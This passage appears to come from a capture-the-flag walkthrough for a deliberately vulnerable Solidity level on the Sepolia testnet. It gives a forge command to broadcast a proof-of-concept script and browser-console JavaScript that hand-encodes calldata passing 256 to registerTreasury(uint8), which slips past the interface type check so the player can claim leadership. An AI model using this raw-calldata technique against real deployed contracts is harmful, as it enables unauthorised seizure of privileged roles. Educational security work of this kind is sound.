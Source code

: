 And the command to run the script:

```bash
forge script script/30_HigherOrder.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY
```

### In the browser's console:

This is a (little) bit trickier in JavaScript as we have to prepare the transaction manually. The following would work just fine:

```javascript
const data =
  web3.eth.abi.encodeFunctionSignature("registerTreasury(uint8)") +
  web3.utils.leftPad(web3.utils.toHex(256), 64).substring(2);

await sendTransaction({
  from: player,
  to: instance,
  data: data,
});
```

Then you can claim the leadership:

```javascript
await contract.claimLeadership();
```

## Takeaway

- Interfaces provide valuable type-checks when calling functions from other contracts.
- Be careful when using low-level calls!

## Reference

- Low-level calls in-depth: https://ethereum-blockchain-developer.com/2022-04-smart-wallet/07-low-level-calls-in-depth/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
